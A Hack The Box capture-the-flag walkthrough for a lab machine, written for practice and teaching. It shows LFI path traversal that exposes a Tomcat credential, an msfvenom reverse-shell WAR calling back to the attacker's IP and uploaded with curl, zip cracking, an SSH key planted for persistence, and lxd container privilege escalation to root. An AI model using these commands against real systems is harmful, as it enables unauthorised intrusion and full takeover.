# Box 




https://www.hackthebox.eu/home/machines/profile/259

# Profile

  

https://www.hackthebox.eu/home/users/profile/296177

# Table of Contents

* [Enumeration](#enumeration)
* [Exploitation](#exploitation)
* [Post-Exploitation](#post-exploitation)
  + [User](#user)
  + [Root](#root)

# Contents 


## Enumeration

Let's start with nmap : 

```bash
nmap -sC -oN scan -sV 10.10.10.194
```



I found a web page where you can do a LFI  http://10.10.10.194/news.php?file=../../../../../etc/passwd



After reading documentation, we can now search for tomcat users : http://10.10.10.194/news.php?file=../../../../../usr/share/tomcat9/etc/tomcat-users.xml 

If you look in the source code page you can see : 

```xml
<user username="tomcat" password="$3cureP4s5w0rd123!" roles="admin-gui,manager-script"/>
```

I find a way to upload a payload : 


 	http://10.10.10.194:8080/manager/text/deploy?path



We can also see ths list of payload available  : http://10.10.10.194:8080/manager/text/list


##  Exploitation

Let's make our own payload to get a reverse_shell  :

```bash
msfvenom -p java/shell_reverse_tcp LHOST=10.10.14.28 LPORT=4444 -f war -o payload.war
```


We upload the file thanks to curl :

```bash
curl -v -u tomcat:\$3cureP4s5w0rd123! --upload-file payload.war  "http://10.10.10.194:8080/manager/text/deploy?path=/payload&update=true"
```

Let's setup nc to receive our shell : 



Activate it :

```
http://10.10.10.194:8080/payload
```

We now get our reverse shell :



## Post-Exploitation

### User

Let's upgrade it, I found python on the machine so we can use :

```bash
/usr/bin/python3.8 -c 'import pty; pty.spawn("/bin/bash")'
```




I found the file /var/www/html/files/16162020_backup.zip whch is password protected I decided to download it on my local machine 



Let's setup a python server to download the file : 

```bash
python3.8 -m http.server 4445
```



on our machine : 

```bash
wget http://10.10.10.194:4445/16162020_backup.zip
```



Let's crack it with the rockyou.txt wordlist :

```bash
fcrackzip -u -D -p '/usr/share/wordlists/rockyou.txt' 16162020_backup.zip
```

we get password : 




We can know get to the user ash in ssh.



We now have our user.txt hash. 

I will now add my ssh pub key to the authorized_keys file of ash.



### Root

Let's enumerate the machine thanks to LinPEAS.

After enumeration, we can see we are part of the lxd group :



We can create a container where we have root access, here is the link to the exploit https://book.hacktricks.xyz/linux-unix/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation.

We first need to upload an alpine builder :

```bash
wget http://10.10.14.28:4444/alpine-v3.12-x86_64-20201031_1515.tar.gz
```



Let's import our image : 

```bash
lxc image import ./alpine-v3.12-x86_64-20201031_1515.tar.gz 
```



I created an alias to give it a name : 



Now configuration : 

```bash
lxc init htb privesc -c security.privileged=true
lxc config device add privesc mydevice disk source=/ path=/mnt/root recursive=true
```

Execution : 

```bash
lxc start privesc
lxc exec privesc /bin/sh
```


Rooted.




